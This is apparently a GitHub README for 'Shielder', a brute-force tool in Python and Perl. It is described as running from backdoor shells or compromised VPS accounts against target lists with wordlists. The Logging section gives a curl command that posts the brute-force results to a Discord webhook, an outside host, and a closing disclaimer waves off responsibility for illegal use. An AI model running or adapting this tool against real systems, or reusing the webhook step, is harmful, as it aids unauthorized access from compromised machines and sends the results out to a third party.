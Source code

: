 <div align="center">
   <img width="270" src="src/shielder.png" alt="logo"></br><h2>Shielder</h2>

[![](https://img.shields.io/cpan/v/HTTP-Message)](https://metacpan.org/pod/Term::ANSIColor) [![CodeFactor](https://www.codefactor.io/repository/github/sinkaroid/shielder/badge)](https://www.codefactor.io/repository/github/sinkaroid/shielder) [![Build Status](https://travis-ci.com/sinkaroid/shielder.svg?branch=master)](https://travis-ci.com/sinkaroid/shielder) [![Python 3](https://pyup.io/repos/github/sinkaroid/shielder/python-3-shield.svg)](https://pyup.io/repos/github/sinkaroid/shielder/)  

----
</div>

## Shielder

Shielder has a massive Bruteforce can be a "checker". These tools let you work on small Environment outside "root" privilege. Supported send logs such as Discord webhook or etc.
- > Tested with backdoor, params, files, and ports.


## Getting Started
Make sure fill your wordlist and your redacted target from: [/init](/init/)  
- `root` is optional  
If you run this thru `crack` enviroment such as vps user or any backdoor shells, don't worry that's why **Shielder** here.

Clone this repo or with pip (if possible)

----

     $ pip install -r requirements.txt  
     $ ./mashu

- You can leave `pip` if your environment is unsupported and there is no way. You can do it with wget or curl.

## Documentation

| Function                 | Description                                                                                      |
|---------------------|--------------------------------------------------------------------------------------------------|
|`mashupl           `| single request (perl)                                                                            |
|`mashu           `| single request (python)                                                                          |
|`mass               `| bulk request (python 3)                                                                          |
|`massq              `| bulk request (python 2)                                                                          |
|`list               `| target (separated with break lines)                                                          |
|`word               `| wordlist (separated with break lines)                                                        |
|`res                `| logs and output                                                                                  |
|`lacur.log          `| readable logs                                                                                    |  

## Logging
You can track this tools, is it in? or you fail to break through? Track it with logging, eg: Discord Webhook, After the bruteforces have finished, Shielder will send you a Complete logs.
```sh
hook='discordhooks url'
isi='....'

url=${hook}
curl -H "Content-Type: application/json" \
-X POST \
-d '{"username": "Mashu", "content": "'${isi}'"}' $url
```

## More Docs:

- [docs.python.org/3/library/http.client.html](https://docs.python.org/3/library/http.client.html) HTTP protocol client
- [metacpan.org/pod/HTTP::Request](https://metacpan.org/pod/HTTP::Request) Perl HTTP::Request
- avoid bad request or anything else,recommend to run dis tools with `root` access [optional]
- `colorama` disable or remove dat if there's nothing root/privilege to install this module

This tool has been tested successfully in several environments.
- [![Linux Ubuntu](https://img.shields.io/badge/Linux-Ubuntu-orange.svg)](/Screenshot/Screenshot_2020-08-06_08-09-28.png)
[![Linux Debian](https://img.shields.io/badge/Linux-Debian-blue.svg)](/Screenshot/Screenshot_2020-08-05_23-20-41.png)
[![Linux backbox](https://img.shields.io/badge/Linux-Backbox-darkblue.svg)](/Screenshot/Screenshot_2020-08-06_08-09-28.png)
[![Windows](https://img.shields.io/badge/Win10_64-Canary-lightblue.svg)](/Screenshot/Screenshot_606.png)  

## Contributor
| [<img src="https://avatars1.githubusercontent.com/u/12372481?s=460&u=4b4ff2fadbdb04dd9534286e8cfe3a34a8586fe1&v=4" width="40px;"/><br /><sub><b>Sinkaroid</b></sub>](https://github.com/sinkaroid)<br />💻🐛|[<img src="https://avatars1.githubusercontent.com/u/19934508?s=460&v=4" width="40px;"/><br /><sub><b>Seringh</b></sub>](https://github.com/p3arce)<br /> 🐛|[<img src="https://avatars1.githubusercontent.com/u/65139960?s=200&v=4" width="40px;"/><br /><sub><b>Redsplit</b></sub>](https://github.com/Redsplit)<br /> 🔧
| :---: | :---: | :---: |


## Notable
Since this tool embraces some ideas from another person, and I'm not an asshole, I'll many thanks:

-   [@justalinko/kagari](https://github.com/justalinko) as "milestone" and for making this tools "true"

## EOF

- feel free to make PR, maybe this tools just using `sucks` pattern and `weird` implementation, if u have more good ideas than this one, just PR.
- I am not responsible whether this is used for illegality or any cases that shells were stabbed from user to another user.


